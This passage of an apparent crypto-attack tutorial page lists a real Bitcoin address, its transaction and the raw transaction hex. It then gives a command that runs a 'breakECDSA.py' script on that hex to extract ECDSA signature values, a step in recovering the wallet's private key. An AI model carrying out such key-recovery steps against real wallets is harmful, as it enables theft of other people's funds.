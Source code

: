 

<hr class="wp-block-separator has-alpha-channel-opacity">



<blockquote class="wp-block-quote"><p><strong><a href="https://btc1.trezor.io/address/18hhdfynnojmiMmBMsrkXNFWketq4mmDHB" target="_blank" rel="noreferrer noopener">18hhdfynnojmiMmBMsrkXNFWketq4mmDHB</a></strong></p><p><a href="https://btc1.trezor.io/tx/cfc6047c1ad23ddb9d3e0151217fe62f045429ffb225e878a07a0db6f98fb9b3" target="_blank" rel="noreferrer noopener">https://btc1.trezor.io/tx/cfc6047c1ad23ddb9d3e0151217fe62f045429ffb225e878a07a0db6f98fb9b3</a></p></blockquote>



<figure class="wp-block-image"><img src="./How to Get a Private Key to a Bitcoin Wallet Using a Signature Fault Rowhammer Attack on Bitcoin CRYPTO DEEP TECH_files/image-152-1024x142.png" alt="How to Get a Private Key to a Bitcoin Wallet Using a Signature Fault (Rowhammer Attack on Bitcoin)" class="wp-image-1274"></figure>



<pre class="wp-block-code"><code>RawTX = 0100000001e4705464562efc76d90240841ff3ed91c8db0b58ee4666502cb0a35cd5611f990d0000006a4730440220682e6b2b855d9ca3e9e88a1ecf44cfe82461560c6c6db54c0c894e9c3e8b1e880220052dd955d1521081a2e48b1830ee17e3c3f75eaf5fdc9072905914f5872155b9012102083a0f1f4d81e74cb2903feccbaf82f7cb5cbeecafd178caefa2fa10d2dfe54dffffffff0158020000000000001976a914406840ebc10519e0934c739a83a2d51f70ff09ae88ac00000000
</code></pre>



<h2>Now we need to get all R, S, Z values ​​from all vulnerable transactions</h2>



<p>Let’s use the breakECDSA.py script</p>



<pre class="wp-block-code"><code>python2 breakECDSA.py 0100000001e4705464562efc76d90240841ff3ed91c8db0b58ee4666502cb0a35cd5611f990d0000006a4730440220682e6b2b855d9ca3e9e88a1ecf44cfe82461560c6c6db54c0c894e9c3e8b1e880220052dd955d1521081a2e48b1830ee17e3c3f75eaf5fdc9072905914f5872155b9012102083a0f1f4d81e74cb2903feccbaf82f7cb5cbeecafd178caefa2fa10d2dfe54dffffffff0158020000000000001976a914406840ebc10519e0934c739a83a2d51f70ff09ae88ac00000000
</code></pre>



<figure class="wp-block-image"><img src="./How to Get a Private Key to a Bitcoin Wallet Using a Signature Fault Rowhammer Attack on Bitcoin CRYPTO DEEP TECH_files/image-153-1024x248.png" alt="How to Get a Private Key to a Bitcoin Wallet Using a Signature Fault (Rowhammer Attack on Bitcoin)" class="wp-image-1276"></figure>
